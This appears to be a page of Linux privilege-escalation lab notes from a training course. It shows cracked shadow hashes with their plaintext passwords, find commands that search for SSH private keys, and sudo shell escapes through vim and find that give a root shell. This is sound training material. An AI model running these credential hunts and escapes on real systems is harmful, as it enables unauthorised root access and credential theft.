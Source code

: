 ``` bash
Hardware.Mon.#1..: Temp: 45c Util: 35%

Started: Fri Mar 22 06:43:10 2024
Stopped: Fri Mar 22 06:43:52 2024

$ cat output
$6$hDHLpYuo$El6r99ivR20zrEPUnujk/DgKieYIuqvf9V7M.6t6IZzxpwxGIvhqTwciEw16y/B.7ZrxVk1LOHmVb/xyEyoUg.:Hacker123
$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:password123
```
Since *Hacker123* is the user TCM's password we now know that root's password is *password123*.
So lets try it out
``` bash
TCM@debian:~$ su -
Password: 
root@debian:~#
```

## Escalation via SSH Keys
There are some commands that can help you finding ssh-keys on a machine
``` bash
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
```
If you can't find anything, try search for `find / -name id_rsa 2> /dev/null` in case other keys than rsa is used.

Copy what you find to attacking machine and try to login as `root` 

## Escalation via Sudo Shell Escaping
A great place to find vulnerables is at [GTFObins](https://gtfobins.github.io/)

First check what you can run as root
``` bash
$ sudo -l
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD

User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```
Try to see it there is a way of exploiting vim and sudo to get higher privileges.  
Seaching for vim and then click on sudo will show you this command `sudo vim -c ':!/bin/sh'`, so let's try it out
``` bash
$ sudo vim -c ':!/bin/sh'

sh-4.1# whoami
root
```
Other suitable commands to get root on this machine are
``` bash
$ sudo find /bin -name nano -exec /bin/sh \;
```